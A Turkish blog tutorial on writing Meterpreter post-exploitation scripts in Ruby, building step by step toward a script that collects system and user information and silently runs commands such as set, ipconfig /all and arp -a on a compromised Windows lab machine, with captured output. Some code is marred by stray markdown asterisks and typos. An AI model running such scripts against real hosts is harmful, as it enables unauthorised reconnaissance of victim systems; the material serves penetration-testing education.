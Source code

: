 ```yaml
---
draft: false

title:  'MSF Meterpreter Script Düzenleme'
date: '2017-06-14T13:49:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Meterpreter Scriptin nasıl bir yapı olduğunu önceki iki yazımızda kısaca gördük. Şimdi, kodların ne sonuç döndürdüğünü parça parça görelim. Bunun için “Hello World” ruby kodu yazalım ve\_helloworld.rb\_olarak\_/usr/share/metasploit-framework/scripts/meterpreter\_klasörüne kayıt edelim." 
 
url:  /tr/msf-meterpreter-script-duzenleme/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Script Yazma



Meterpreter Scriptin nasıl bir yapı olduğunu önceki iki yazımızda kısaca gördük. Şimdi, kodların ne sonuç döndürdüğünü parça parça görelim. Bunun için “Hello World” ruby kodu yazalım ve `helloworld.rb` olarak `/usr/share/metasploit-framework/scripts/meterpreter` klasörüne kayıt edelim.


```bash
root@kali:~# echo “print_status**(**“Hello World”**)**” > /usr/share/metasploit-framework/scripts/meterpreter/helloworld.rb
```



Oluşturduğumuz script kodunu meterpreter oturum açık iken çalıştıralım.


```bash
meterpreter > run helloworld
> Hello World
meterpreter >
```



Basit bir Ruby kodunu, meterpreter içinde çalıştırmış olduk. Şimdi ise bir kaç API çağrısını `helloworld.rb` dosyamızın içine ekleyelim. Aşağıdaki satırları, metin editör kullanarak ekleyebilirsiniz.


```bash
print_error**(**“this is an error!”**)**
print_line**(**“this is a line”**)**
```



Yukarıdaki satırlar, standart veri girişi ve hata mesajları için kullanıma bir örnek oluşturmaktadır. Oluşturduğumuz kodları çalıştıralım.


```bash
meterpreter > run helloworld
> Hello World
**[**-] this is an error!
this is a line
meterpreter >
```



## helloworld.rb



Script kod dosyamız en son olarak aşağıdaki gibi olmalıdır.


```bash
print_status("Hello World")
print_error("this is an error!")
print_line("This is a line")
```



Şimdi kodumuza bir fonksiyon ekleyelim. Bu fonksiyonda, bir kaç temel bilgi elde edeceğiz ve hata kontrol özelliği ekleyeceğiz. Oluşturacağımız mimarinin yapısı aşağıdaki gibi olacaktır.


```bash
 def geninfo**(**session**)**
    begin
    …..
    rescue ::Exception **=>** e
    …..
    end
 end
```



Bu yapıyı oluşturmak için dosyayı aşağıdaki şekilde düzenlemeniz yeterlidir. Bu düzenlemeleri yaptıktan sonra `helloworld.rb` dosyamızın içeriği aşağıdaki gibi olacaktır.


```bash
 def getinfo**(**session**)**
    begin
       sysnfo **=** session.sys.config.sysinfo
       runpriv **=** session.sys.config.getuid
       print_status**(**"Getting system information ..."**)**
       print_status**(**"tThe target machine OS is #{sysnfo['OS']}"**)**
       print_status**(**"tThe computer name is #{'Computer'} "**)**
       print_status**(**"tScript running as #{runpriv}"**)**
    rescue ::Exception **=>** e
       print_error**(**"The following error was encountered #{e}"**)**
    end
 end
```



Bu kodların ne işlem yaptığını adım adım açıklayalım. Öncelikle, değerleri `session` değişkeninden alan `getinfo(session)` isimli bir foksiyon tanımladık. Bu session değişkeni, bir takım metodları ihtiva etmektedir. `sysnfo = session.sys.config.sysinfo` satırı sistem bilgisini getirirken `runpriv = session.sys.config.getuid` kullanıcı bilgisini elde etmekte kullanılmaktadır. Ayrıca, hata durumlarını yönetici istisna yöneticisi bulunmaktadır.



## helloworld2.rb



İlk oluşturduğumuz dosyaya ufak bir ilave yaparak `helloworld2.rb` dosyası üretelim. `helloworld2.rb` dosyası, az önce oluşturduğumuz dosyanın sonuna getinfo(client) satırının eklenmiş halidir. Bu satırı ekleyip dosyayı `helloworld2.rb` olarak kayıt edelim. Dosyanın son hali aşağıdaki gibi olmalıdır.


```bash
 def getinfo**(**session**)**
    begin
       sysnfo **=** session.sys.config.sysinfo
       runpriv **=** session.sys.config.getuid
       print_status**(**"Getting system information ..."**)**
       print_status**(**"tThe target machine OS is #{sysnfo['OS']}"**)**
       print _status**(**"tThe computer name is #{'Computer'} "**)**
       print_status**(**"tScript running as #{runpriv}"**)**
 rescue ::Exception **=>** e
       print_error**(**"The following error was encountered #{e}"**)**
    end
 end

 getinfo**(**client**)**
```



Şimdi hazırladığımız `helloworld2.rb` dosyamızı Meterpreter oturumunda çalıştıralım.


```bash
 meterpreter > run helloworld2
 > Getting system information ...
 >     The target machine OS is Windows XP **(**Build 2600, Service Pack 3**)**.
 >     The computer name is Computer
 >     Script running as WINXPVM01labuser
```



Gördüğünüz gibi `helloworld2.rb` scripti ile bir takım sistem bigilerini ele etmiş olduk.



## helloworld3.rb



Yukarıda oluşturduğumuz iki örnek kod dosyasından sonra şimdi başka bir örnek scripte bakalım. Bu script dosyasını metin editorü ile oluşturabilirsiniz. İçeriği aşağıdaki gibi olmalıdır.


```bash
def list_exec**(**session,cmdlst**)**
    print_status**(**"Running Command List ..."**)**
    r**=**''
    session.response_timeout**=**120
    cmdlst.each **do** |cmd|
       begin
          print_status "running command #{cmd}"
          r **=** session.sys.process.execute**(**"cmd.exe /c #{cmd}", nil, **{**'Hidden' **=>** true, 'Channelized' **=>** true**})**
          **while****(**d **=** r.channel.read**)**             print_status**(**"t#{d}"**)**
          end
          r.channel.close
          r.close
       rescue ::Exception **=>** e
          print_error**(**"Error Running Command #{cmd}: #{e.class} #{e}"**)**
       end
    end
 end commands **=** **[** "set",
    "ipconfig  /all",
    "arp -a"**]** list_exec**(**client,commands**)**
```



Yukarıdaki kodların ne işlemler yaptığına kısaca bakalım. Öncelikle, `list_exec` isimli bir fonksiyon tanımlanmıştır. Bu fonksiyon, `session` ve `cmdlist` isimli iki değişken almaktadır. `cmdlist` değişkeninin array yöntemiyle bir dizi komutlar olduğu, kodlardan anlaşılmaktadır. Bu komutlar, sırayla değişkenden alınacak `cmd.exe` üzerinden hedef sistemde çalıştırılacaktır. Sistemin donma ve tepkisiz kalma durumunu önlemek için `session.response_timeout=120` 120 saniye bekleme süresi tanımlanmıştır. Önceki script kodunda olduğu gibi hata kontrol satırı da bulunmaktadır.



`cmdlist` dizi değişkeni aslında aşağıda gösterilen komutları sırayla çalıştırmaktadır.


```bash
 commands **=** **[** “set”,
    “ipconfig  /all”,
    “arp –a”]
```



Komutların sonunda da oluşturduğumuz fonksiyonu çalıştırma satırı `list_exec(client,commands)` bulunmaktadır.



Şimdi oluşturduğumuz yeni helloworld3.rb script kodunu Meterpreter oturumu içinde çalıştıralım.


```bash
 meterpreter > run helloworld3
 > Running Command List ...
 >     running command set
 >     ALLUSERSPROFILE**=**C:\Documents and Settings\All Users
 APPDATA**=**C:\Documents and Settings\P0WN3D\Application Data
 CommonProgramFiles**=**C:\Program Files\Common Files
 COMPUTERNAME**=**TARGET
 ComSpec**=**C:\WINNT\system32\cmd.exe
 HOMEDRIVE**=**C:
 HOMEPATH**=**
 LOGONSERVER**=**TARGET
 NUMBER_OF_PROCESSORS**=**1
 OS**=**Windows_NT
 Os2LibPath**=**C:\WINNT\system32\os2dll;
 Path**=**C:\WINNT\system32;C:\WINNT;C:\WINNT\System32\Wbem
 PATHEXT**=**.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH
 PROCESSOR_ARCHITECTURE**=**x86
 PROCESSOR_IDENTIFIER**=**x86 Family 6 Model 7 Stepping 6, GenuineIntel
 PROCESSOR_LEVEL**=**6
 PROCESSOR_REVISION**=**0706
 ProgramFiles**=**C:\Program Files
 PROMPT**=**$P$G
 SystemDrive**=**C:
 SystemRoot**=**C:\WINNT
 TEMP**=**C:\DOCUME~1\P0WN3D\LOCALS~1\Temp
 TMP**=**C:\DOCUME~1\P0WN3D\LOCALS~1\Temp
 USERDOMAIN**=**TARGET
 USERNAME**=**P0WN3D
 USERPROFILE**=**C:\Documents and Settings\P0WN3D
 windir**=**C:\WINNT >     running command ipconfig  /all
 >     
 Windows 2000 IP Configuration Host Name . . . . . . . . . . . . : target
 Primary DNS Suffix  . . . . . . . : 
 Node Type . . . . . . . . . . . . : Hybrid
 IP Routing Enabled. . . . . . . . : No
 WINS Proxy Enabled. . . . . . . . : No
 DNS Suffix Search List. . . . . . : localdomain Ethernet adapter Local Area Connection: Connection-specific DNS Suffix  . : localdomain
 Description . . . . . . . . . . . : VMware Accelerated AMD PCNet Adapter
 Physical Address. . . . . . . . . : 00-0C-29-85-81-55
 DHCP Enabled. . . . . . . . . . . : Yes
 Autoconfiguration Enabled . . . . : Yes
 IP Address. . . . . . . . . . . . : 172.16.104.145
 Subnet Mask . . . . . . . . . . . : 255.255.255.0
 Default Gateway . . . . . . . . . : 172.16.104.2
 DHCP Server . . . . . . . . . . . : 172.16.104.254
 DNS Servers . . . . . . . . . . . : 172.16.104.2
 Primary WINS Server . . . . . . . : 172.16.104.2
 Lease Obtained. . . . . . . . . . : Tuesday, August 25, 2009 10:53:48 PM
 Lease Expires . . . . . . . . . . : Tuesday, August 25, 2009 11:23:48 PM >     running command arp -a
 >     
 Interface: 172.16.104.145 on Interface 0x1000003
 Internet Address      Physical Address      Type
 172.16.104.2          00-50-56-eb-db-06     dynamic   
 172.16.104.150        00-0c-29-a7-f1-c5     dynamic    meterpreter >
```



Gördüğünüz gibi, Ruby kodlarıyla script oluşturmak aslında çok kolay. İlk başta kodlar biraz karışık gelebilir ancak mevcut koldarı biraz çalıştığınızda aşinalık kazanacaksınız. Devamında yapmanız gereken, kod örneklerinden faydalanarak kendi script dosyanızı oluşturmak ve denemektir.
